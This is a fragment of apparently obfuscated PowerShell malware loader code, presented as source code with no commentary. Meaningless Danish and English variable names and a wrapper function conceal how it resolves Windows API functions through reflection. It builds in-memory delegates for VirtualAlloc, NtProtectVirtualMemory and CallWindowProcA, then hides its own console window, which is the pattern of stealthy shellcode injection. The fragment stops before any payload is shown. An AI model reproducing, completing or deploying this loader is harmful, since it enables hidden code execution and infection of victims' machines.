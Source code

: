 ```vbs
$Pigeonholes
}
}
$Revisionen=Irvings27 'System.dll'
$Miniatureformaters=Irvings27 'Microsoft.Win32.UnsafeNativeMethods'
$Ekskursionens=Irvings27 'GetProcAddress'
$Masterstroke=Irvings27 'System.Runtime.InteropServices.HandleRef'
$Nationalistiske=Irvings27 'string'
$Waling89=Irvings27 'GetModuleHandle'
$Lige=Irvings27 'RTSpecialName, HideBySig, Public'
$Coelanaglyphic=Irvings27 'Runtime, Managed'
$Zorn=Irvings27 'ReflectedDelegate'
$Fljtespillernes=Irvings27 'InMemoryModule'
$requital=Irvings27 'MyDelegateType'
$Mancipate=Irvings27 'Class, Public, Sealed, AnsiClass, AutoClass'
$Paritetsbit=Irvings27 'Invoke'
$Intenible=Irvings27 'Public, HideBySig, NewSlot, Virtual'
$Lanolated=Irvings27 'VirtualAlloc'
$Konfererende=Irvings27 'ntdll'
$Premeasure=Irvings27 'NtProtectVirtualMemory'
$Postantennal=Irvings27 '\'
$Squalidness=Irvings27 'USER32'
$Froprdiken=Irvings27 'CallWindowProcA'
$dermatopathophobia = Irvings27 'kernel32'
$Gaveafgifters = Irvings27 'user32'
$Muschelkalk=Irvings27 'ShowWindow'
function Platinamine ($Ravishments, $Byrindets) 
{
	Irvings27 '$global:Datareduktionsfordelens = [AppDomain]::CurrentDomain.GetAssemblies()' 1
	Irvings27 '$global:Forpagtningsforhold = ($Datareduktionsfordelens | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split($Postantennal)[-1].Equals($Revisionen) }).GetType($Miniatureformaters)' 1
	Irvings27 '$global:Firesafe = $Forpagtningsforhold.GetMethod($Ekskursionens, [Type[]] @($Masterstroke, $Nationalistiske))' 1
	Irvings27 'return $Firesafe.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($Forpagtningsforhold.GetMethod($Waling89)).Invoke($null, @($Ravishments)))), $Byrindets))' 1
}
function Taenkte ([Parameter(Position = 0)] [Type[]] $Nominations,[Parameter(Position = 1)] [Type] $Baggrundslager = [Void])
{
 
	Irvings27 '$global:Bagvasker = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName($Zorn)), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule($Fljtespillernes, $false).DefineType($requital, $Mancipate, [System.MulticastDelegate])' 1
	$Nuklearmedicin85=33344-33343
	Irvings27 '$Bagvasker.DefineConstructor($Lige, $Nuklearmedicin85, $Nominations).SetImplementationFlags($Coelanaglyphic)' 1
	Irvings27 '$Bagvasker.DefineMethod($Paritetsbit, $Intenible, $Baggrundslager, $Nominations).SetImplementationFlags($Coelanaglyphic)' 1
	Irvings27 'return $Bagvasker.CreateType()' 1
}
$Indvendendes=0
Irvings27 '$global:Headroom = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Platinamine $dermatopathophobia $Lanolated), (Taenkte @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))' 1
Irvings27 '$global:Rhema = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Platinamine $Gaveafgifters $Muschelkalk), (Taenkte @([IntPtr], [UInt32]) ([IntPtr])))' 1
$Holloa = 'Varigheder'
Irvings27 '${Host}.UI.RawUI.WindowTitle = $Holloa' 1
Irvings27 '$global:Niches = (Get-Process | Where-Object { $_.MainWindowTitle -eq $Holloa })' 1
Irvings27 '$global:Backsliding = $Niches.MainWindowHandle' 1
Irvings27 '$Rhema.Invoke($Backsliding, $Indvendendes)' 1
```